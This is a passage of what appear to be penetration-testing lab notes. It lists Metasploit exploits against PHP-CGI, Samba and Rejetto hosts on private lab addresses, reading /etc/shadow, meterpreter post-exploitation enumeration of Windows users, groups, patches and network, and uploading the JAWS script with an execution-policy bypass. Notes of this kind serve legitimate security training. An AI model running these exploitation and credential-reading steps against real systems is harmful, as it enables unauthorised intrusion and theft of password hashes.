             **PHP**
            
            - [http://10.2.20.205/phpinfo.php](http://10.2.20.205/phpinfo.php)
            - Exploit using this `exploit/multi/http/php_cgi_arg_injection`
            
            **SAMBA**
            
            - `nmap -sV -p 445 10.2.20.205`
            - `nc -nv 10.2.20.205 445`
            - `search smb_version use auxiliary/scanner/smb/smb_version setg RHOSTS 10.2.20.205 run`
            - `use exploit/multi/samba/usermap_script`
            - `run`
            - update to meterpreter
            - `cat /etc/shadow`
    - Post Exploitation
        
        - Local Enumeration
            
            - Windows
                
                - `nmap -sV 10.2.16.155`
                - `service postgresql start && msfconsole -q`
                - Exploit rejetto
                - Got meterpreter session
                - `getuid`
                - `sysinfo`
                - `show_mount`
                - `cat C:\\\\Windows\\\\System32\\\\eula.txt`
                - `shell`
                - `hostname`
                - `systeminfo`
                - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
                - `getuid - Admin already`
                - `getprivs`
                - current logged-on users `query user`
                - Display all accounts - `net users`
                - `net user Administrator`
                - Enumerate groups `net localgroup`
                - `net localgroup Administrators`
                - `net localgroup "Remote Desktop Users”`
                - `ipconfig ipconfig /all`
                - `route print` - display routing table
                - arp table - `arp -a`
                - Listening connections/ ports - `netstat -ano`
                - Firewall state - `netsh firewall show state`
                - running procesess - `ps`
                - `pgrep explorer.exe`
                - `migate 744`
                - `wmic service list brief`
                - running tasks - `tasklist /SVC`
                
                **Automation**
                
                - [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)
                - Run this command in powershell `PS C:\\temp> .\\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt`
                - Go to msfconsole session back
                - `session 1 cd C:\\\\ mkdir Temp cd Temp upload /root/Desktop/jaws-enum.ps1 shell`
                - `powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1 -OutputFilename Jaws-Enum.txt`
                - `download Jaws-Enum.txt`
                